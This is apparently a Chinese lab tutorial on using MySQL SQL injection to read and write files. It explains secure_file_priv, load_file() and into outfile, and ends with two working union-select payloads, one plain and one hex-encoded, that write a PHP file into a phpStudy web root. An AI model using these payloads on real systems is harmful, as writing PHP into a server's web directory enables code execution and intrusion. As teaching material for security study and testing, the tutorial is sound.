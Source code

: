 

![在这里插入图片描述](https://img-blog.csdnimg.cn/d10cd24f668b41bda4f79704f6d3eb6a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)



| 参数                     | 含义                                                        |
| ------------------------ | ----------------------------------------------------------- |
| secure_file_priv=NULL    | 限制mysqld 不允许导入导出操作                               |
| secure_file_priv=‘c:/a/’ | 会限制mysqld 的导入导出操作在某个固定目录下，并且子目录有效 |
| secure_file_priv=        | 不对mysqld 的导入导出操作做限制                             |

**修改配置文件，对读写不做限制，文件路径`C:\phpStudy\MySQL\my.ini`，该操作比较敏感，需要在mysql的配置文件中操作，在phpmyadmin网页中不能修改**

![在这里插入图片描述](https://img-blog.csdnimg.cn/a40c5b6e35c34f588ed166bbfd9bc50a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)



**常见读取文件列表：**

**常见写入文件问题：魔术引号开关/magic_quotes_gpc**

### **load_file()：读取函数**





![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1627616726927-3effc583-790c-4610-94e9-05df37cb7680.png)





![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1627634990125-232e8af2-33b0-4a2d-98d8-160725015464.png?x-oss-process=image%2Fresize%2Cw_1145%2Climit_0)



![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1627635065072-cc02b68a-3076-425f-9d54-4e3785100807.png?x-oss-process=image%2Fresize%2Cw_1145%2Climit_0)![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1627635073425-8cc4b09e-9838-496c-b9b9-411cacc59e84.png)



### into outfile 或 into dumpfile：导出函数

**写16进制是直接写，写明文的话，需要用引号给包住**

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1627616809122-3b0b299c-9852-4052-b035-2a500d1e4dac.png)

将x写入www文件中

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1627635595594-31d5d1ad-9831-47cc-b51d-78972631e8eb.png?x-oss-process=image%2Fresize%2Cw_1145%2Climit_0)

**使用 --+注释掉limint**



写phpinfo 没有报错说明写入成功，可以直接访问写入的文件地址

```
# 1. 直接写
?id=-1' union select 1,'<?php phpinfo();?>',3 into outfile 'c:\\phpstudy\\www\\hack.php'--+
# 2. 改写成16进制
?id=1' and 1=2 union select 1,0x3c3f70687020706870696e666f28293b3f3e,3 into outfile 'c:/phpstudy/www/hack.php' --+

```
